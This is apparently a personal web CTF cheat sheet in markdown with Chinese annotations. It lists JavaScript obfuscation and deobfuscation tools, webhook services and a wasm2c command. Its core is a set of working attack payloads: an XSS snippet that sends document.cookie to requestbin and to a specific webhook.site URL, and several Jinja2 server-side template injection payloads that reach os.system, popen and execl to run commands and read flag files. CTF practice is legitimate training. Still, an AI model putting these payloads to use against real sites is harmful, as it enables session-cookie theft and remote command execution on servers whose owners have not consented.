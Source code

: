 ```yaml
---
title: Web Cheat Sheet
tags: [Tools, CTF, Web]

category: "Tools > CTF"
---
```


# Web Cheat Sheet
## Online Tools
| Fuck                             | Beautifier                       |
| -------------------------------- | -------------------------------- |
| [jsfuck](http://www.jsfuck.com/) | [JSNice](http://www.jsnice.org/) |
|[jjencode](https://utf-8.jp/public/jjencode.html)|[JS 反混淆器](https://beautifier.io/): 可以反混淆或解密JS的檔案|
|[aaencode](https://utf-8.jp/public/aaencode.html)|[JS 壓縮+加密+混淆+美化](https://js.wfuapp.com/)|
|[Esolang List](https://esolangs.org/wiki/Language_list)|[JS Fuck Decode](https://www.53lu.com/tool/jsfuckdecode/)|
||[aadecode](https://cat-in-136.github.io/2010/12/aadecode-decode-encoded-as-aaencode.html)|

## Cheat-Sheet
{% raw %}
* [XSS-CheatSheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
    利用XSS把session打到webhook上: 
    ```javascript?
    window.location=<requestbin.com>/?a+document.cookie
    // or
    fetch("https://webhook.site/699a6563-c9b5-4ad7-adaa-e189c5f78194", { method: 'GET', headers: { 'Cookie': document.cookie } })
    ```
* [All-Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%19Injection/README.md)
* SSTI Payload: 記得找==os.\_wrap_close==
    ```
    {{().__class__.__base__.__subclasses__()[132].__init__.__globals__['system']('id')}}
    {{self.__init__.__globals__.__builtins__.__import__("os").popen("cat%20Flag.txt").read()}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['execl']("/bin/cat", "cat", "./flag.txt")}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['popen']("cat /flag.txt")}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['execl']("/bin/cat", "cat", file.lower())}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['spawnl']('P_WAIT', "/bin/cat", "cat", file.lower())}}
    ```
{% endraw %}
## Others
* wasm $\to$ c: [wabt](https://github.com/WebAssembly/wabt)
    ```bash!
    # 按照說明build完後進到./build
    $ ./wasm2c {wasm file path} -o {output c file path}
    ```
* Webhook
    [Webhook.site](https://webhook.site/)
    [Beeceptor](https://beeceptor.com/)
    [Ngrok](https://ngrok.com/)